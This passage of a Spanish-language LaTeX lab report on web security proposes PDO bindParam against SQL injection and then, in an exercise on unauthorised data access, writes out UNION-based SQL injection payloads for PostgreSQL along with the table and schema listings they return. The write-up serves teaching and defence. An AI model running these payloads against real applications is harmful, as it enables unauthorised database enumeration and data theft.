 \documentclass{article}
\begin{document}
Se propone para evitar el ataque de tipo \textit{SQLInjection} utilizar las función de PDO \texttt{bindParam} que ejecuta una validación (escapando carácteres especiales de SQL) y evita el poder realizar esto. Se encuentra la solución propuesta en el fichero \texttt{xLoginInjectionRepaired.php}
\subsection{Ejercicio H: {\small Acceso indebido a información}}
\subsubsection{Hallar el nombre de las tablas}
Basta con introducir el siguiente texto: 
\begin{lstlisting}
a' UNION SELECT relname from pg_class where '1'='1
\end{lstlisting}
Y se recibe una salida similar a esta:
\begin{lstlisting}
    pg_ts_parser_oid_index
    pg_conversion_oid_index
    pg_stat_user_indexes
    pg_ts_dict
    pg_amop
    pg_toast_1255_index
    pg_tablespace
    [ ... ]
    pg_language
    usage_privileges
    pg_toast_12214
    pg_transform
    pg_toast_2609
    pg_cursors
    transforms
    pg_class
    pg_statio_all_tables
    pg_ts_template
    sql_features
    sql_implementation_info
    pg_user_mapping_user_server_index
    pg_collation
    clientbets
    pg_tables
    pg_stat_archiver
    pg_extension_oid_index
    pg_largeobject
\end{lstlisting}    
{\footnotesize Salida completa en \texttt{tablas.html}}

Realmente de la consulta solo se ha utilizado que la variable sustituida está al final, luego podemos unir el resultado con otra consulta, en este caso sobre las tablas de administración

Para centrarse en las tablas de interés es necesario encontrar el oid del \textit{schema public}

Esto se logra fácilmente con la siguiente entrada en formulario:
\begin{lstlisting}
a' union select oid || ' ' || nspname from pg_namespace where '1'='1

\end{lstlisting}
Retornando algo similar la página web:
\begin{lstlisting}
    99 pg_toast
    11817 pg_toast_temp_1
    2200 public
    11 pg_catalog
    12086 information_schema
    11816 pg_temp_1
\end{lstlisting}
{\footnotesize Salida completa en \texttt{oid\_public.html}}
\end{document}
